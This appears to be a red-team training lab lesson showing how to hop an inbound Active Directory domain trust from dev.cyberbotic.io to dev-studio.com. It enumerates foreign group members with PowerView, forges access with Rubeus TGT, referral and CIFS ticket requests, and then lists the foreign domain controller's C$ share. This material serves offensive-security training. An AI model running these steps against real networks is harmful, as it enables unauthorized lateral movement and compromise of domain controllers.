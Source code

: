 dev.cyberbotic.io also has a one-way inbound trust with dev-studio.com.
```
beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : dev-studio.com
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound
WhenCreated     : 8/16/2022 9:52:37 AM
WhenChanged     : 8/16/2022 9:52:37 AM
```
  

Because the trust is inbound from our perspective, it means that principals in our domain can be granted access to resources in the foreign domain.  We can enumerate the foreign domain across the trust.
```
beacon> powershell Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName

dnshostname      
-----------      
dc.dev-studio.com
```
  

`Get-DomainForeignGroupMember` will enumerate any groups that contain users outside of its domain and return its members.
```
beacon> powershell Get-DomainForeignGroupMember -Domain dev-studio.com

GroupDomain             : dev-studio.com
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=dev-studio,DC=com
MemberDomain            : dev-studio.com
MemberName              : S-1-5-21-569305411-121244042-2357301523-1120
MemberDistinguishedName : CN=S-1-5-21-569305411-121244042-2357301523-1120,CN=ForeignSecurityPrincipals,DC=dev-studio,DC=com
```
  

This output shows that there's a member of the domain's built-in Administrators group who is not part of dev-studio.com. The MemberName field contains a SID that can be resolved in our current domain.
```
beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1120

DEV\Studio Admins
```
  

This means that members of DEV\Studio Admins are also members of the built-in Administrators group of dev-studio.com and therefore inherit local admin access to dc.dev-studio.com.  If this is confusing, this is how it looks from the perspective of the foreign domain controller.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/671/76e/5e7/devstudio.png)

  

To hop this trust, we only need to impersonate a member of this Studio Admins domain group.
```
beacon> powershell Get-DomainGroupMember -Identity "Studio Admins" | select MemberName

MemberName
----------
nlamb
```
  

To hop a domain trust using Kerberos, we first need an inter-realm key.  Obtain a TGT for the target user (here I am using `asktgt` with their AES256 hash).
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /aes256:a779fa8afa28d66d155d9d7c14d394359c5d29a86b6417cb94269e2e84c4cee4 /nowrap

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: a779fa8afa28d66d155d9d7c14d394359c5d29a86b6417cb94269e2e84c4cee4
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\nlamb'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIFwj[...]MuaW8=
```
  

Next, use that TGT to request a referral ticket from the current domain to the target domain.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/dev-studio.com /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFwj[...]MuaW8= /nowrap

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'krbtgt/dev-studio.com'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[+] TGS request successful!
[*] base64(ticket.kirbi):

doIFoz[...]NPTQ==

ServiceName              :  krbtgt/DEV-STUDIO.COM
ServiceRealm             :  DEV.CYBERBOTIC.IO
UserName                 :  nlamb
UserRealm                :  DEV.CYBERBOTIC.IO
StartTime                :  9/12/2022 11:13:23 AM
EndTime                  :  9/12/2022 9:11:21 PM
RenewTill                :  9/19/2022 11:11:21 AM
Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
KeyType                  :  rc4_hmac
Base64(key)              :  zfUbwA2B0+aqao7HSvnUgw==
```

  Notice how this inter-realm ticket is of type `rc4_hmac` even though our TGT was `aes256_cts_hmac_sha1`.  This is the default configuration unless AES has been specifically configured on the trust, so this is not necessarily bad OPSEC.

Finally, use this inter-realm ticket to request TGS's in the target domain.  Here, I'm requesting a ticket for CIFS.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/dc.dev-studio.com /domain:dev-studio.com /dc:dc.dev-studio.com /ticket:doIFoz[...]NPTQ== /nowrap

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/dc.dev-studio.com'
[*] Using domain controller: dc.dev-studio.com (10.10.150.10)
[+] TGS request successful!
[*] base64(ticket.kirbi):

doIFkD[...]8uY29t

ServiceName              :  cifs/dc.dev-studio.com
ServiceRealm             :  DEV-STUDIO.COM
UserName                 :  nlamb
UserRealm                :  DEV.CYBERBOTIC.IO
StartTime                :  9/12/2022 11:16:46 AM
EndTime                  :  9/12/2022 9:11:21 PM
RenewTill                :  9/19/2022 11:11:21 AM
Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
KeyType                  :  aes256_cts_hmac_sha1
Base64(key)              :  V1vCRoRX/9SAFe/ynWQIE9E9DYztP0mk6bg9BRx9Wjk=
```
  
```
beacon> run klist

Current LogonId is 0:0x45bcb0

Cached Tickets: (1)

#0>	Client: nlamb @ DEV.CYBERBOTIC.IO
	Server: cifs/dc.dev-studio.com @ DEV-STUDIO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	
beacon> ls \\dc.dev-studio.com\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 09:15:48   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/19/2021 06:35:15   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     08/16/2022 09:26:24   ProgramData
          dir     08/16/2022 08:54:23   Recovery
          dir     08/16/2022 09:26:41   System Volume Information
          dir     08/16/2022 08:55:34   Users
          dir     08/16/2022 09:23:25   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/12/2022 08:36:05   DumpStack.log.tmp
 384mb    fil     09/12/2022 08:36:05   pagefile.sys
 ```